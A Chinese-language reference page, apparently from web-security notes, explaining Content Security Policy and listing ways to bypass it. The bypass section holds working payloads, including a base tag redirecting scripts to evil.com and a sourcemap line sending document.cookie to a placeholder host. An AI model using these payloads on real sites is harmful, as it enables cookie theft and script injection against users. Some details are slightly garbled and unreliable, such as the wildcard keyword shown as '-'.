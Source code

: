 CSP
========================================

CSP是什么？
----------------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。

配置
----------------------------------------

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
base-uri        定义 <base> 根URL策略，不使用default-src作为默认值
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``-``
    - 允许从任意url加载，除了 ``data:`` ``blob:`` ``filesystem:`` ``schemes``
    - e.g. ``img-src -``
- ``none``
    - 禁止从任何url加载资源
    - e.g. ``object-src 'none'``
- ``self``
    - 只可以加载同源资源
    - e.g. ``img-src 'self'``
- ``data:``
    - 可以通过data协议加载资源
    - e.g. ``img-src 'self' data:``
- ``domain.example.com``
    - e.g. ``img-src domain.example.com``
    - 只可以从特定的域加载资源
- ``\*.example.com``
    - e.g. ``img-src \*.example.com``
    - 可以从任意example.com的子域处加载资源
- ``https://cdn.com``
    - e.g. ``img-src https://cdn.com``
    - 只能从给定的域用https加载资源
- ``https:``
    - e.g. ``img-src https:``
    - 只能从任意域用https加载资源
- ``unsafe-inline``
    - 允许内部资源执行代码例如style attribute,onclick或者是sicript标签
    - e.g. ``script-src 'unsafe-inline'``
- ``unsafe-eval``
    - 允许一些不安全的代码执行方式，例如js的eval()
    - e.g. ``script-src 'unsafe-eval'``
- ``nonce-<base64-value>'``
    - 使用随机的nonce，允许加载标签上nonce属性匹配的标签
    - e.g. ``script-src 'nonce-bm9uY2U='``
- ``<hash-algo>-<base64-value>'``
    - 允许hash值匹配的代码块被执行
    - e.g. ``script-src 'sha256-<base64-value>'``

配置范例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
---------------------------------------

预加载
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

MIME Sniff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本

302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

iframe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当可以执行代码时，可以创建一个源为 ``css`` ``js`` 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 ``../../../`` ``/%2e%2e%2f`` 等可能触发服务器报错的链接也可以到达相应的目的。

base-uri
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当script-src为nonce或无限制，且base-uri无限制时，可通过 ``base`` 标签修改根URL来bypass，如下加载了http://evil.com/main.js

::

    <base href="http://evil.com/">
    <script nonce="correct value" src="/main.js"></script>

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- location 绕过
- 可上传SVG时，通过恶意SVG绕过同源站点
- 存在CRLF漏洞且可控点在CSP上方时，可以注入HTTP响应中影响CSP解析
- CND Bypass，如果网站信任了某个CDN, 那么可利用相应CDN的静态资源bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git Pull Request <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- ``<meta http-equiv="refresh" content="0; url=http://...." />``

